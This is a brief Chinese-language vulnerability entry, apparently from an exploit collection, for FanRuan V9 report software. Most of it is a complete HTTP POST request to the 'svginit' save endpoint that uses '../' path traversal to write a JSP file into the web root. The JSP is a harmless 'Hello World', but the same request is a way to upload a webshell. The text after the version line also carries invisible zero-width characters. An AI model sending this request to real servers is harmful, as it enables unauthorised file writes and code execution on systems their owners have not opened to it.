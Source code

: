 ### 漏洞描述：

帆软 V9 存在任意文件覆盖，导致攻击者可以任意文件上传。

### 影响版本：

帆软 V9‌‌‌‏‍‎‌‏‌‏‌‎‎‌‏‎‏‌‌‎‌‏‌‏‏‌‌‏‍‎‏‏‌‏‌‍​‎‌‏‎‏‎‍‍‏‎‎‏

### Payload：

```jsx
POST /WebReport/ReportServer?op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update.jsp HTTP/1.1 
Host: host 
Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 
Accept-Encoding: gzip, deflate 
Accept-Language: zh-CN,zh;q=0.9 
Cookie: JSESSIONID=DE7874FC92F0852C84D38935247D947F; JSESSIONID=A240C26B17628D871BB74B7601482FDE 
Connection: close 
Content-Type:text/xml;charset=UTF-8 
Content-Length: 74 

{"CONTENT":"<%out.println(\"Hello World!\");%>","CHARSET":"UTF-8"}
```

---
